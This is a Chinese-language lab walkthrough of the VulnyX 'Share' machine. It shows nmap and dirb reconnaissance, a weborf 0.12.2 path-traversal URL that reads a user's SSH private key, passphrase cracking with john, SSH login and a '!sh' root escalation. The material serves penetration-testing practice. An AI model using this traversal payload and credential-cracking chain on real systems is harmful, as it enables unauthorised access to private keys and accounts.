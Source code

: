 # 环境

来自[Vulny_share](https://vulnyx.com/#Share)，通过已知weborf漏洞拿shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```

![image-20240830214016830](image/image-20240830214016830.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.42
```

![image-20240830214454418](image/image-20240830214454418.png)

## 服务详解

```bash
sudo nmap -sV -sC -O -p22,80,8080 192.168.88.42
```

![image-20240830221102112](image/image-20240830221102112.png)

## 目录扫描

```bash
dirb http://192.168.88.42
dirb http://192.168.88.42:8080
```

发现没有什么目录

# web渗透

## weborf已知漏洞

访问8080发现是一个weborf搭建的一个目录共享文件，版本是0.12.2

```bash
searchsploit weborf
searchsploit -m 
```

![image-20240830221332432](image/image-20240830221332432.png)

利用已知漏洞的payload进行验证，payload`http://192.168.88.42:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa`

![image-20240830221349536](image/image-20240830221349536.png)

## 爆破私钥密码

```bash
wget http://192.168.88.42:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa -O idtim
ssh2john idtim>idtim2
john idtim2 --wordlist=/usr/share/wordlist/ruckyou.txt
```

![image-20240830223023563](image/image-20240830223023563.png)

## 提权

```bash
chmod 600 idtim #私钥文件权限必须是600
ssh -i idtim tim@192.168.88.42
```

![image-20240830223457817](image/image-20240830223457817.png)

直接执行看看效果，默认都可以执行!sh来获取root

![image-20240830223920646](image/image-20240830223920646.png)
